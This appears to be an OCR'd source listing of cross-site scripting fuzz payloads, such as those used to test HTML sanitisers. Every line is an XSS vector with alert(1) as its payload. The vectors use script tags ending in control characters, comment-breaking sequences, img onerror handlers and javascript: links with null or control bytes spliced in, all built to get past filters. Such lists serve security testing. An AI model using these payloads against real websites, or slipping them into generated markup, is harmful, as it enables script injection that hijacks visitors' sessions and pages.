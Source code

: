 &lt;body onblur body onblur="javascript:javascript:alert(1)"&gt;&lt;/body onblur&gt;

\x3Cscript&gt;javascript:alert(1)&lt;/script&gt;

'"`&gt;&lt;script&gt;/* *\x2Fjavascript:alert(1)// */&lt;/script&gt;

&lt;script&gt;javascript:alert(1)&lt;/script\x0D

&lt;script&gt;javascript:alert(1)&lt;/script\x0A

&lt;script&gt;javascript:alert(1)&lt;/script\x0B

&lt;script charset="\x22&gt;javascript:alert(1)&lt;/script&gt;

&lt;!--\x3E&lt;img src=xxx:x onerror=javascript:alert(1)&gt; --&gt;

--&gt;&lt;!-- ---&gt; &lt;img src=xxx:x onerror=javascript:alert(1)&gt; --&gt;

--&gt;&lt;!-- --\x00&gt; &lt;img src=xxx:x onerror=javascript:alert(1)&gt; --&gt;

--&gt;&lt;!-- --\x21&gt; &lt;img src=xxx:x onerror=javascript:alert(1)&gt; --&gt;

--&gt;&lt;!-- --\x3E&gt; &lt;img src=xxx:x onerror=javascript:alert(1)&gt; --&gt;

`"'&gt;&lt;img src='#\x27 onerror=javascript:alert(1)&gt;

&lt;a href="javascript\x3Ajavascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

"'`&gt;&lt;p&gt;&lt;svg&gt;&lt;script&gt;a='hello\x27;javascript:alert(1)//';&lt;/script&gt;&lt;/p&gt;

&lt;a href="javas\x00cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x07cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x0Dcript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;


&lt;a href="javas\x0Acript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x08cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x02cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x03cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x04cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;


&lt;a href="javas\x01cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x05cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x0Bcript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x09cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x06cript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javas\x0Ccript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;script&gt;/* *\x2A/javascript:alert(1)// */&lt;/script&gt;

&lt;script&gt;/* *\x00/javascript:alert(1)// */&lt;/script&gt;

&lt;style&gt;&lt;/style\x3E&lt;img src="about:blank" onerror=javascript:alert(1)//&gt;&lt;/style&gt;
